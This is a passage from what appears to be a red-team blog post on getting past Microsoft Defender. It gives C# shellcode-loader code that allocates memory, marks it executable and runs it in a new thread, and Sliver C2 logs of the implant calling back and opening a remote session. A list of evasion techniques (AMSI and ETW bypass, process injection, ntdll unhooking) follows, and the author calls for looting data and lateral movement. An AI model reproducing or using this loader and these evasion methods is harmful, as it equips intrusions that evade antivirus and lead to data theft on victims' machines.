            IntPtr lpStartAddress = VirtualAlloc(IntPtr.Zero, (UInt32)buf.Length, 0x1000, 0x04);

            // Copy shellcode into allocated space
            Marshal.Copy(buf, 0, lpStartAddress, buf.Length);

            // Make shellcode in memory executable
            UInt32 lpflOldProtect;
            VirtualProtect(lpStartAddress, (UInt32)buf.Length, 0x20, out lpflOldProtect);

            // Execute the shellcode in a new thread
            UInt32 lpThreadId = 0;
            IntPtr hThread = CreateThread(0, 0, lpStartAddress, IntPtr.Zero, 0, ref lpThreadId);

            // Wait until the shellcode is done executing
            WaitForSingleObject(hThread, 0xffffffff);
        }
    }
}
```

let’s compile and run the executable from a terminal from the target... and IMMEDIATELY we get a shell !!!

```bash
[*] Beacon f436035a FRENCH_PHRASE - 172.22.64.1:56068  - windows/amd64 - Fri, 26 Sep 2025 10:00:59 

[server] sliver >
[server] sliver > beacons

 ID         Name            Tasks   Transport   Remote Address      Hostname       Username    Operating System   Locale   Last Check-In                               Next Check-In
========== =============== ======= =========== =================== ============== =========== ================== ======== =========================================== ===========================================
 f436035a   FRENCH_PHRASE   0/0     http(s)     172.22.64.1:56068     <SNIP>           <SNIP>   windows/amd64     <SNIP>   Fri Sep 26 10:03:52  2025 (6s ago)         Fri Sep 26 10:05:14  2025 (in 1m16s)
```

And defender did not go off at all, not even after a scan





This is so cool... It worked, we won the battle against Microsoft Defender.

And now, we loot all sensitive information :) and can Escalate our privileges, Move Laterally, Pivot to other servers or computers, well, just hack'em further.

```bash
[server] sliver > use f436035a-c591-4427-a3d8-68c0a8b1896a

[*] Active beacon FRENCH_PHRASE (f436035a-c591-4427-a3d8-68c0a8b1896a)

[server] sliver (FRENCH_PHRASE) > interactive

[*] Using beacon's active C2 endpoint: https://172.22.76.175:8088
[*] Tasked beacon FRENCH_PHRASE (979d6481)

[*] Session 6ef170c8 FRENCH_PHRASE - 172.22.64.1:39381  - windows/amd64 - Fri, 26 Sep 2025 10:20:15 

[server] sliver (FRENCH_PHRASE) > use 6ef170c8-96dc-41c7-a1d2-26dd8105be16

[*] Active session FRENCH_PHRASE (6ef170c8-96dc-41c7-a1d2-26dd8105be16)

[server] sliver (FRENCH_PHRASE) > ls

C:\source\repos\ProGamer2\ProGamer2\bin\x64\Release\net8.0 (5 items, 163.2 KiB)
===========================================================================================
-rw-rw-rw-  ProGamer2.deps.json           419 B      Fri Sep 26 10:00:40 +0200 2025
-rw-rw-rw-  ProGamer2.dll                 5.5 KiB    Fri Sep 26 10:00:40 +0200 2025
-rw-rw-rw-  ProGamer2.exe                 146.5 KiB  Fri Sep 26 10:00:40 +0200 2025
-rw-rw-rw-  ProGamer2.pdb                 10.5 KiB   Fri Sep 26 10:00:40 +0200 2025
-rw-rw-rw-  ProGamer2.runtimeconfig.json  340 B      Fri Sep 26 10:00:40 +0200 2025
```

It is worth mentioning techniques such as the one used by this individual [shanekhantaun9](https://github.com/shanekhantaun9/RemoteLoader), an alternative which seems to work just well using the same concept of stages rather with a beacon/implant. 

So, well, here are the evasion techniques we ended up using:

- Shellcode obfuscation - so that, static analysis does not flag our malware
- AMSI Bypass - Antimalware Scan Interface (AMSI), speaks for itself, so the AV does not scan our malware

*That was sufficient enough to bypass Microsoft Defender, we could however, add*

- ETW Bypass - so that SOC Analyst do not find any trace of us being there
- Process Injection - so that, our malicious activities is covered/under a trusted process making everything less suspicious
- ndtll.dll unhooking - evading those Advance AV and EDR that monitor certain hooks for malicious activity
- and rewriting the whole code in C rather :) -  would make this malware even more stealthy overall

As a Red Teamer,  this is sufficient, indeed, as most paid Command and Control Framework (eg Cobalt Strike C2) were made with Anti-virus evasion in mind for their beacons, stagers and implants, meaning, an implant from Cobalt Strike C2 is currently not detectable by Microsoft Defender, and Forta is making sure it remains undetectable.

When I do visit malware development again, I will be sure to rewrite this malware in C this time :) 

see you !